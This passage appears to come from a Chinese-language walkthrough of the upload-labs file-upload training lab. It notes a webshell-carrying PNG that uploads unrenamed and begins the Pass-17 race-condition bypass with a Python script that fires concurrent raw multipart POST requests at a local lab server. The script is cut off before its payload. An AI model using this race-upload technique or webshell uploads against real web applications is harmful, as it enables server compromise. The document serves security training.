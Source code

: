 ![](image/16-5.png)

程序依然没有对文件重命名，携带webshell的无效损坏png图片直接被上传成功。

![](image/16-6.png)

#### Pass-17

利用条件竞争删除文件时间差绕过。使用命令`pip install hackhttp`安装[hackhttp](https://github.com/BugScanTeam/hackhttp)模块，运行下面的Python代码即可。如果还是删除太快，可以适当调整线程并发数。

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    raw = """POST /upload-labs/Pass-17/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/upload-labs/Pass-17/index.php
Cookie: pass=17
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------6696274297634
Content-Length: 341

```
